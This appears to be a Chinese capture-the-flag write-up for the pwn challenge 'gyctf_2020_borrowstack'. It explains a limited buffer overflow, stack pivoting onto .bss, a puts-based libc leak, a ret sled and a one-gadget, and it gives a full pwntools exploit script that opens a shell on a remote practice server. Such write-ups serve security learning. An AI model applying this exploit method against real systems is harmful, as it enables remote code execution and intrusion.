

- 栈迁移
- one-gadgets
- 64泄露libc



1. 在`read`函数中存在变量`buf`的溢出,但是长度受到了限制,只能溢出两个栈空间
2. 在后面可以往`&bank`写入内容,而`&bank`正好位于`.bss`段上,可以写入且内存中位置不会改变
3. 没有后门函数,考虑泄露`libc`,因为溢出空间有限,所以采用`one-gadget`这样只要溢出两个空间就可以拿到`shell`

```python3
from pwn import *
from LibcSearcher import LibcSearcher
# context.log_level = 'debug'

#io = gdb.debug('./gyctf_2020_borrowstack','b main')
elf = ELF('./gyctf_2020_borrowstack')
ret_addr = 0x00000000004004c9
leave_ret_addr = 0x0000000000400699
pop_rdi_ret = 0x0000000000400703
padding = 0x60
bank_addr = 0x601080
io = remote('node5.buuoj.cn',28420)

def leak_puts_libc():
    payload1 = flat([b'A'*padding,p64(bank_addr),p64(leave_ret_addr)])
    io.sendafter(b'want\n',payload1)
    payload2 = p64(ret_addr)*20+p64(pop_rdi_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main']) #填充的p64(ret_addr)*20是因为该bss段距离got表太近会导致程序错误退出/ps:真的doge
    io.sendafter(b'Done!You can check and use your borrow stack now!\n',payload2)

    puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
    print('puts_addr->',hex(puts_addr))
    return puts_addr

def remote_pwn1(puts_addr):
    Lib = LibcSearcher('puts',puts_addr)
    libc_base = puts_addr - Lib.dump('puts')
    one_gadget=libc_base+0x4526a
    payload1 = b'A'*(padding+8)+p64(one_gadget)
    io.sendafter(b'want\n',payload1)
    io.interactive()

puts_addr = leak_puts_libc()
print('=====================')
remote_pwn1(puts_addr=puts_addr)
```

这题打的很曲折,一开始想到了栈迁移,不过一开始想的是泄露出`s`的栈地址,踩了大坑,后续又一个大坑是`bank`在栈上的位置距离`got`表太近(以前从来没注意过),直接填充会导致`got`表被破坏,程序意外退出,同时泄露的地址错误,所以需要做一个`ret滑梯`抬栈(也是才知道这个操作,长度至少是20,太多了也不行,就离谱,没动调过也不是很懂,抄答案のscript_kids)

打了好长时间,不过学到了新东西,自己搞肯定搞不出来
